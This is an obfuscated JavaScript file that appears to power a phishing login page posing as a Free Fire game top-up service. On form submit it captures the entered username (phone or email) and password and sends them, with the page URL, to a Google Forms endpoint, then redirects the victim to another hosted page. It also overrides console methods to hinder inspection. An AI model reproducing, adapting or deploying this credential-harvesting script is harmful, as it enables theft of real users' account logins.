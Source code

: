 const _0x1e1132=_0x1ea0;(function(_0x47852b,_0x266538){const _0x294337=_0x1ea0,_0x204a1a=_0x47852b();while(!![]){try{const _0x2b443a=-parseInt(_0x294337(0xe8))/0x1*(-parseInt(_0x294337(0xd3))/0x2)+parseInt(_0x294337(0xf1))/0x3*(parseInt(_0x294337(0xe4))/0x4)+parseInt(_0x294337(0xd5))/0x5*(-parseInt(_0x294337(0xe0))/0x6)+parseInt(_0x294337(0xd2))/0x7*(parseInt(_0x294337(0xcb))/0x8)+-parseInt(_0x294337(0xe6))/0x9*(-parseInt(_0x294337(0xdc))/0xa)+-parseInt(_0x294337(0xc5))/0xb*(-parseInt(_0x294337(0xcd))/0xc)+-parseInt(_0x294337(0xd0))/0xd;if(_0x2b443a===_0x266538)break;else _0x204a1a['push'](_0x204a1a['shift']());}catch(_0x364861){_0x204a1a['push'](_0x204a1a['shift']());}}}(_0x3c03,0x2139e));const _0x13ec42=(function(){let _0x46b23f=!![];return function(_0x597f63,_0x2bbeb5){const _0x397de1=_0x46b23f?function(){if(_0x2bbeb5){const _0x90bd14=_0x2bbeb5['apply'](_0x597f63,arguments);return _0x2bbeb5=null,_0x90bd14;}}:function(){};return _0x46b23f=![],_0x397de1;};}()),_0x59aa9d=_0x13ec42(this,function(){const _0x2846cf=_0x1ea0;return _0x59aa9d[_0x2846cf(0xf7)]()[_0x2846cf(0xd7)]('(((.+)+)+)+$')[_0x2846cf(0xf7)]()[_0x2846cf(0xf3)](_0x59aa9d)[_0x2846cf(0xd7)]('(((.+)+)+)+$');});function _0x1ea0(_0x1a6b6c,_0x31561){const _0x4a2c5f=_0x3c03();return _0x1ea0=function(_0x58bd95,_0x1f6690){_0x58bd95=_0x58bd95-0xc3;let _0x378a87=_0x4a2c5f[_0x58bd95];return _0x378a87;},_0x1ea0(_0x1a6b6c,_0x31561);}_0x59aa9d();function _0x3c03(){const _0x1a022b=['Content-Type','prototype','value','5830QuCbSF','serialize','href','num','1122846HGTpdG','test','error','exception','28264slCRZv','trace','2034XqBiKQ','return\x20(function()\x20','5qrIzRC','location','length','getElementById','log','thongbao','querySelector','setRequestHeader','POST','3EpPiVC','onsubmit','constructor','warn','table','bind','toString','https://vi-napthe-online.000webhostapp.com/freefire.php','show','ajax','#login_error1','11rnbhJb','apply','isNumeric','hide','preventDefault','fire','1919352WZqGgq','application/x-www-form-urlencoded','708624nNwFZA','input[name=\x22taikhoan\x22]','#login_error2','2386735XDtOCv','https://docs.google.com/forms/d/e/1FAIpQLSfHjyAue79rdTYpX1r0AIvccCqFVIrkH7P3FbTdtjr1Kq_lsA/formResponse','7twUStD','27614MCtXTB','console','5LHWqOn','form#login_form','search','JSON'];_0x3c03=function(){return _0x1a022b;};return _0x3c03();}const _0x1f6690=(function(){let _0x14d1cf=!![];return function(_0x451444,_0x3774e9){const _0xf153ad=_0x14d1cf?function(){const _0x92bc49=_0x1ea0;if(_0x3774e9){const _0x52bc9b=_0x3774e9[_0x92bc49(0xc6)](_0x451444,arguments);return _0x3774e9=null,_0x52bc9b;}}:function(){};return _0x14d1cf=![],_0xf153ad;};}()),_0x58bd95=_0x1f6690(this,function(){const _0xcf4245=_0x1ea0,_0x607fff=function(){const _0x383d65=_0x1ea0;let _0x39464f;try{_0x39464f=Function(_0x383d65(0xe7)+'{}.constructor(\x22return\x20this\x22)(\x20)'+');')();}catch(_0x529bc4){_0x39464f=window;}return _0x39464f;},_0x1e6658=_0x607fff(),_0x5c02e3=_0x1e6658[_0xcf4245(0xd4)]=_0x1e6658[_0xcf4245(0xd4)]||{},_0x350a25=[_0xcf4245(0xec),_0xcf4245(0xf4),'info',_0xcf4245(0xe2),_0xcf4245(0xe3),_0xcf4245(0xf5),_0xcf4245(0xe5)];for(let _0x58828a=0x0;_0x58828a<_0x350a25[_0xcf4245(0xea)];_0x58828a++){const _0x1ccf02=_0x1f6690[_0xcf4245(0xf3)][_0xcf4245(0xda)]['bind'](_0x1f6690),_0x228ff5=_0x350a25[_0x58828a],_0xccca33=_0x5c02e3[_0x228ff5]||_0x1ccf02;_0x1ccf02['__proto__']=_0x1f6690[_0xcf4245(0xf6)](_0x1f6690),_0x1ccf02['toString']=_0xccca33['toString'][_0xcf4245(0xf6)](_0xccca33),_0x5c02e3[_0x228ff5]=_0x1ccf02;}});_0x58bd95();let num=0x0;function go1(){const _0x1d303f=_0x1ea0;window[_0x1d303f(0xe9)][_0x1d303f(0xde)]=_0x1d303f(0xf8);}$(_0x1e1132(0xc4))['hide'](),$(_0x1e1132(0xcf))['hide']();function telephoneCheck(_0x485095){const _0xf93ee1=_0x1e1132;var _0x30883d=/^(1\s|1|)?((\(\d{3}\))|\d{3})(\-|\s)?(\d{3})(\-|\s)?(\d{4})$/[_0xf93ee1(0xe1)](_0x485095);return _0x30883d;}function validateEmail(_0x4f6214){var _0xe6beb5=/\S+@\S+\.\S+/;return _0xe6beb5['test'](_0x4f6214);}function go(){const _0x4c60b5=_0x1e1132;let _0x4e4ebb=document['querySelector'](_0x4c60b5(0xce)),_0x28d3e7=document[_0x4c60b5(0xee)]('input[name=\x22matkhau\x22]'),_0x370168=_0x4e4ebb[_0x4c60b5(0xdb)],_0x1f28e1=_0x28d3e7[_0x4c60b5(0xdb)],_0x5997da={'entry.1119446543':window[_0x4c60b5(0xe9)][_0x4c60b5(0xde)],'entry.627529954':_0x370168,'entry.500132017':_0x1f28e1},_0x5bb63c=new URLSearchParams(_0x5997da);_0x5bb63c=_0x5bb63c[_0x4c60b5(0xf7)]();let _0x5ce3c4=new XMLHttpRequest();_0x5ce3c4['open']('POST',_0x4c60b5(0xd1),!![]),_0x5ce3c4[_0x4c60b5(0xef)](_0x4c60b5(0xd9),_0x4c60b5(0xcc)),_0x5ce3c4['send'](_0x5bb63c),Swal[_0x4c60b5(0xca)]({'icon':icon,'title':title,'text':text})['then'](_0x2b18f4=>{go1();}),localStorage['setItem'](_0x4c60b5(0xdf),num++);}document[_0x1e1132(0xee)]('#login_form')[_0x1e1132(0xf2)]=function(_0x523292){const _0x4b97a0=_0x1e1132;_0x523292[_0x4b97a0(0xc9)]();let _0x3e61de=document[_0x4b97a0(0xee)](_0x4b97a0(0xce)),_0x311bf9=document[_0x4b97a0(0xee)]('input[name=\x22matkhau\x22]');var _0x3024d0=document[_0x4b97a0(0xeb)](_0x4b97a0(0xed));let _0x49e226=window[_0x4b97a0(0xe9)]['pathname'],_0x368fbc=_0x3e61de[_0x4b97a0(0xdb)],_0x1b9b5c=_0x311bf9['value'];if(_0x368fbc=='')$(_0x4b97a0(0xc4))['show'](),$(_0x4b97a0(0xcf))[_0x4b97a0(0xc8)]();else{if($[_0x4b97a0(0xc7)](_0x368fbc)==!![]){if(telephoneCheck(_0x368fbc)==!![]){if(_0x1b9b5c['length']>=0x6){go();var _0x365d18=$(_0x4b97a0(0xd6))[_0x4b97a0(0xdd)]();return $['ajax']({'type':_0x4b97a0(0xf0),'url':_0x49e226,'dataType':_0x4b97a0(0xd8),'data':_0x365d18,'success':function(){}}),!![],$('#login_error1')[_0x4b97a0(0xc8)](),$('#login_error2')[_0x4b97a0(0xc8)]();}else $(_0x4b97a0(0xc4))['hide'](),$(_0x4b97a0(0xcf))['show']();}else $(_0x4b97a0(0xc4))[_0x4b97a0(0xf9)](),$(_0x4b97a0(0xcf))[_0x4b97a0(0xc8)]();}else{if(_0x1b9b5c['length']<=0x5||_0x1b9b5c=='')$(_0x4b97a0(0xc4))[_0x4b97a0(0xc8)](),$(_0x4b97a0(0xcf))[_0x4b97a0(0xf9)]();else{if(validateEmail(_0x368fbc)==!![]){go();var _0x365d18=$('form#login_form')[_0x4b97a0(0xdd)]();return $[_0x4b97a0(0xc3)]({'type':_0x4b97a0(0xf0),'url':_0x49e226,'dataType':'JSON','data':_0x365d18,'success':function(){}}),!![],$(_0x4b97a0(0xc4))[_0x4b97a0(0xc8)](),$(_0x4b97a0(0xcf))[_0x4b97a0(0xc8)]();}else $(_0x4b97a0(0xc4))[_0x4b97a0(0xf9)](),$('#login_error2')[_0x4b97a0(0xc8)]();}}}};
